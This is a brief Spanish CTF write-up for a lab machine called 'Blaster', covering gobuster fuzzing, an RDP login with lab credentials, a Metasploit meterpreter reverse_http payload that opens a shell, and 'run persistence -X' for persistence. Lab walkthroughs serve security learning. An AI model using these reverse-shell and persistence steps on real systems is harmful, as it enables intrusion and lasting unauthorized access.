


# Blaster

## Nmap

## Fuzzing

    gobuster dir -u http://10.10.131.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php 

## MSRDP

Nos conectamos al Escritorio remoto

    xfreerdp /u:wade /p:parzival /v:10.10.131.79

En el historial podemos ver el CVE

En este video veremos el CVE en funcionamiento: https://www.youtube.com/watch?v=3BQKpPNlTSo

## Metasploit

Colocamos el LHOST

Colocamos el payload

    set payload windows/meterpreter/reverse_http

Ejecutamos la sesion como job

Copiamos el código en la consola de la máquina con acceso remoto, ya tendremos una shell meterpreter activa

Ejecutando el siguiente comando, conseguiremos persistencia en la máquina cuando el sistema se ejecuta

    run persistence -X